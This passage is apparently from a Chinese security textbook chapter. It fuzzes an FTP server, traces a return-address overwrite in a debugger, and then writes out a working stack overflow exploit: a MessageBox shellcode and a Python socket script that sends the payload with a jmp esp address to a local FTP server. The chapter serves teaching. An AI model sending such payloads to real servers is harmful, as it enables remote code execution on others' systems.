图 2.21 中我们看到，GoodFTP Server 程序在运行到内存地址 41414141 处发生了严重的运行错误。

首先可以肯定的一点是：GoodFTP Server 程序出错的原因肯定是由于 FTPFuzz 程序造成的。也就是说，FTPFuzz 程序发送给 GoodFTP Server 程序的某一条测试 FTP 命令导致了 GoodFTP Server 程序出错。



图 2.22 字母数字的十六进制编码（ASCII 码表）

但是，你一定会纳闷，这个 41414141 的内存地址又是从哪里来的？请大家回过头看一看在前面图 2.16 中我们配置 FTPFuzz 程序用户数据内容部分时，我们选择的用户数据内容为单纯的字母 “A”，而字母 A 在系统内存中的十六进制表达式正好就为 41。每一个字母或者数字在内存中的十六进制表达式你可以查阅下面的表格来获得，如图 2.22 所示。



依据前面的设置，FTPFuzz 程序会构造出一个由 30 个字母 A 组成的用户数据，结合 USER 命令发送给 GoodFTP Server 程序。

GoodFTP Server 程序在接收到这条测试 FTP 命令后，由于处理不当，导致 GoodFTP Server 程序将四个字母 A 表示的十六进制数据当做程序要执行的内存地址，进而引发了程序发生错误。

真是难以置信，短短几秒钟的时间，我们竟然就已经发现 GoodFTP Server 程序存在严重错误。但是此刻，我们还并不能认为这个错误是一个安全漏洞，因为安全漏洞是可以被恶意攻击者利用的。为了能够确认我们发现的这个错误是不是一个安全漏洞，我们首先需要认真分析一下造成该错误的具体原因。

#### 2.4.2 分析漏洞

为了能够分析 GoodFTP Server 程序发生错误的真实原因，我们首先需要一个名为“OllyICE”的程序，如图 2.23 所示。

“OllyICE”程序是一个用来跟踪软件具体运行过程的程序，这种程序一般被称作“调试器”。调试器原本是被软件开发人员用来分析软件出现错误原因的工具，由于我们在进行漏洞挖掘过程中，也往往会造成被测试软件出现错误；为此，我们就可以使用调试器来分析软件出现错误的具体原因。

还有一个原因，在进行漏洞安全挖掘的过程中，绝大多数情况下，我们不可能获得被测试软件的源代码。例如测试 Windows 系统的安全漏洞时，微软是不可能会给我们提供源代码文件的。这个时候，我们只有借助调试器才能够分析出软件内部的具体运行情况。



运行 OllyICE 程序后，直接按键盘上的 F3 功能键，出现“打开 32 位可执行文件”的窗口，选择到 GoodFTP Server 程序的主体文件 GoodFTP.exe，如图 2.24 所示。



点击图 2.24“打开”按钮，OllyICE 程序将会载入 GoodFTP.exe，如图 2.25 所示。

此刻，切勿点击任何按钮，按下键盘上的 Ctrl+G 组合键，出现一个“输入要跟随的表达式”对话框，如图 2.26 所示。



在图 2.26 的对话框中输入 **strstr**。之所以输入“strstr”这个函数的名称，是因为 GoodFTP Server 程序接收到的 FTP 命令是一个字符串形式的数据。GoodFTP Server 程序要想操作这个字符串形式的 FTP 命令，它需要调用操作系统提供的用来操作字符串变量的函数，而 strstr 这个函数正好就是一个经常用来操作字符串变量的函数。

输入“strstr”函数后，点击“确定”按钮；OllyICE 程序将会切换到 strstr 函数的开始部分，如图 2.27 所示。



按 F2 键在 strstr 函数这里下一个断点，目的是当 GoodFTP Server 程序调用这个函数的时候，就马上暂停程序运行。按 F9 键，OllyICE 程序将会正式运行 GoodFTP Server 程序。

等到 GoodFTP Server 程序的运行界面出来之后，还是按照 2.3.1 小节中的操作，点击 GoodFTP Server 程序的“File”菜单，选择“Load settings”加载 test.ftpd 配置文件。最后，点击“Launch”按钮让 GoodFTP Server 程序工作起来。

再次运行我们的漏洞挖掘工具 FTPFuzz 程序，依旧按照 2.3.1 小节中配置 FTPFuzz 程序，配置好后，点击“Start”按钮开始测试。

当 FTPFuzz 程序自动测试完毕后，我们发现 OllyICE 程序已经中断在 `strstr` 函数上，如图 2.28 所示。



仔细看图 2.28 中最下方显示的内容，“USER”命令后紧跟着 30 个字母 A，这些字母 A 就来自于 FTPFuzz 发送给 GoodFTP Server 程序的用户数据部分。

按下 Ctrl+F9 组合键，OllyICE 程序将执行完 `strstr` 函数，返回到调用它的代码处，如图 2.29 所示。



按 F8 功能键 7 下，程序运行到“retn 4”这条命令处。`retn` 这条命令代表的意思是程序将要返回。当执行到这条指令时，计算机的 CPU 将会取出 `esp` 寄存器所指向的内存数据，传递给 `eip` 寄存器，作为将要执行的下一条指令所在内存地址。此刻，`esp` 寄存器指向的内存地址为 016EF950，如图 2.30 所示。



让我们通过 OllyICE 程序的堆栈窗口看一看，016EF950 这个内存地址中的数据是什么，如图 2.31 所示。

图 2.31 中我们清楚地看到，016EF950 内存地址中的数据是 **41414141**，这不就是四个字母 A 的十六进制表达式吗？



当我们按下 F9 功能键试图让 GoodFTP Server 程序继续运行时，OllyICE 程序给出了一个警告提示，如图 2.32 所示。

原来 41414141 这个内存地址并不存在，所以 GoodFTP Server 程序无法继续运行。



借助 OllyICE 程序的调试，我们弄明白了前面 2.3.1 小节中，GoodFTP Server 程序在被 FTPFuzz 进行安全测试过程中发生错误的原因。FTPFuzz 程序发送的过长用户数据覆盖了 GoodFTP Server 程序内部的一个返回地址，导致 GoodFTP Server 程序无法继续正常运行。

其实，我们这次发现的这个所谓的 GoodFTP Server 程序的“错误”就是一个典型的缓冲区溢出漏洞。既然是漏洞，那么就应当会被利用。对于恶意攻击者来说，缓冲区溢出漏洞往往被利用来执行木马或者病毒程序，这些恶意代码也被称之为“ShellCode”（关于缓冲区溢出的原理和 ShellCode 的具体内容，我们将在本书的第 3 章中给大家详细介绍）。为了完整给大家展示一个漏洞从被发现到被利用的全过程，下面就让我们来看看如何利用本次发现的漏洞来执行一段“ShellCode”。

#### 2.4.3 利用漏洞

从上面的分析来看，我们现在可以利用测试 FTP 命令中的用户数据部分来控制 GoodFTP Server 程序运行到用户数据所代表的内存地址上。于是，我们就有了一个利用该漏洞的想法：首先，将我们想要执行的 ShellCode 代码放入到内存的某个地址上；然后，利用测试 FTP 命令中的用户数据部分控制 GoodFTP Server 程序在执行 retn 指令时返回到 ShellCode 所在的内存地址上，此时，GoodFTP Server 程序就会直接运行我们的 ShellCode 了。

思路有了，现在就需要着手落实。其实整个利用过程我们可以分为三个部分来完成，第一步就是 ShellCode 代码的准备。

这里为大家准备好了一个 ShellCode 代码，它的作用是弹出一个显示着“错误”两个字的对话框，代码如下。

```asm
char sc[]=
"\x33\xDB"      // XOR EBX, EBX, 将 EBX 寄存器清零
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX
"\x53"          // PUSH EBX，以上四条指令用来向 MessageBoxA 函数传递参数
"\xB8\xEA\x04\xD5\x77"  // MOV EAX, User32.MessageBoxA
                        // 将 MessageBoxA 函数的地址放入到 EAX 寄存器
"\xFF\xD0"      // CALL EAX，调用 MessageBoxA 函数弹出一个对话框
```

第二步，我们需要将这段 ShellCode 代码发送给 GoodFTP Server 程序，让 GoodFTP Server 程序将其存放进内存的某个地址当中。

要想发送 ShellCode 代码，利用 FTPFuzz 程序是不能够做到的。我们需要自己编写一段程序代码来实现 ShellCode 的发送工作，这个时候 Python 语言就派上用场了。

Python 语言是一种非常简单的编程开发语言，我们使用短短几行代码就可以实现数据发送任务，而不需要像 C 语言那样复杂。为了方便大家学习，用来发送 ShellCode 的 Python 代码我已经为大家准备好了，如下所示（注意，这里提供给大家的 ShellCode 是可以用于在任何语言中的，例如用 C 语言来发送这段 ShellCode 给 GoodFTP Server 程序效果是一样的）。

```python
import socket
import sys                  # 以上两句代码引入必须使用的两个 Python 函数库
shellcode=(                 # 我们的 ShellCode，用来弹出一个带有“错误”字眼的对话框
"\x33\xDB"
"\x53"
"\x53"
"\x53"
"\x53"
"\xB8\xEA\x04\xD5\x77"
"\xFF\xD0"
)

payload = "A"*15
payload += "\x47\x74\xD2\x77"
payload += "A"*4
payload += shellcode
payload += "A"*4            # 以上五句代码是个关键点，我们将在后面进行解释

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('127.0.0.1', 21))   # 建立与 GoodFTP Server 程序的连接
s.recv(1024)
s.send('USER ' + payload + '\r\n')       # 发送寄存 ShellCode 攻击数据的 USER 命令
raw_input('[*] Done, press enter to quit')
s.close()                                 # 发送结束
```

> **小贴士**：上面这段 Python 代码中便于读者理解用中文做了解释，在实际使用中，请将中文删除后保存，千万不要输入中文字符，这会引发 Python 代码出错。

简单解释一下这段 Python 代码的意思，代码中利用 connect 函数建立与 127.0.0.1 这个 IP 地址的连接，连接端口号为 21，这个正好就是 GoodFTP Server 程序所在的 IP 地址和工作端口号。连接好后，代码利用 send 函数将基本 FTP 命令“USER”与“payload”这个字符串变量结合后发送给 GoodFTP Server 程序。其中，“payload”这个字符串变量就包含了我们的 ShellCode 代码。

不知大家是否注意到，“payload”这个字符串变量不单单包含我们的 ShellCode 代码，还包含了字母 A 以及一些其它的字符，如“\x47\x74\xD2\x77”，这究竟是怎么回事呢？

请大家回到图 2.30 显示的画面中，当过长的用户数据覆盖了 GoodFTP Server 程序的返回地址时，ESP 寄存器指向的内存地址正好就存放着过长的用户数据。那么如果这里就放着我们的 ShellCode 代码，利用 `jmp esp` 这样的指令，就能够控制程序跳转到 esp 寄存器指向的内存地址上，这不就可以执行我们的 ShellCode 代码了吗？其实，这就是我们第三步要做的事情。

第三步，我们要将 GoodFTP Server 程序的返回地址覆盖为一个指向 `jmp esp` 这样指令的内存地址，让 GoodFTP Server 程序在出错后，首先执行 `jmp esp` 指令，从而跳转到 esp 寄存器指向的 ShellCode 代码上去继续执行。“payload”这个字符串变量中的“\x47\x74\xD2\x77”这段字符串就代表了一个 `jmp esp` 指令所在的内存地址，只不过它是倒着写的。

> **知识点**：CPU 在执行计算机指令的时候，都会利用寄存器来进行数据的传递工作。每一个寄存器相当于 CPU 芯片中的一个存储单元，它用来存放 CPU 计算过程中所需要的各种数据信息，如指令地址、数据地址、运算的中间结果等。CPU 在获取数据的时候都是从寄存器中获得数据的，因为寄存器的存取数据速度远远快于内存这样的存储器，这有助于提高 CPU 的运算效率。其中，esp 寄存器是堆栈指针寄存器，CPU 会通过它来获取堆栈中的数据。

